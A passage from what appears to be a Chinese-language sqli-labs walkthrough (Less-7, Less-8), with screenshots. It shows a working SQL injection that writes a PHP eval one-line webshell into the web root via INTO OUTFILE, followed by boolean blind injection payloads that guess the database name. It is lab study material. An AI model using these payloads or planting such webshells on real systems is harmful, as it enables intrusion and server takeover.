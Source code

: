 这里我们使用into outfile函数配合一句话木马去上传文件拿到网站的webshell

```sql
http://127.0.0.1/sql1/Less-7/?id=1')) union select 1,2,'<?php @eval($_POST["ckc"]);?>' into outfile "E:\\wamp64\\www\\sql1\\Less-7\\shell.php" --+
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql-p7-1.png)

成功写入，然后蚁剑连接即可

![sql-p7-3](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql-p7-3.png)

## 布尔类型注入

### Sqli-labs-Lass-8

payload

```sql
?id=1' and 1=1--+
```

猜测查询语句

```sql
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

无报错，无回显，单引号闭合，布尔类型注入

```sql
?id=1' and ascii(substr(database(),1,1))>=115--+
```

首先猜解数据库的长度。数据库猜解长度的函数length

```sql
?id=1' and length(database())>1--+ #肯定大于1，这个事实
?id=1' and length(database())>7--+ #大于7
?id=1' and length(database())>8--+ #不大于8
?id=1' and length(database())=8--+ #数据库等于8，然后呢！
```

通过ascii()和substr()猜测数据库名

```sql
ascii() #返回指定数字对应的ascii码字符函数
substr() #截取从pos位置开始到最后的所有str字符串
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql-p8-1.png)

然后猜解字符了，115对应字母s，然后按这个一个一个猜解，编辑坑爹呀！还是写个字典用burp跑
burp设置如下

设置变量

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql-p8-2.png)

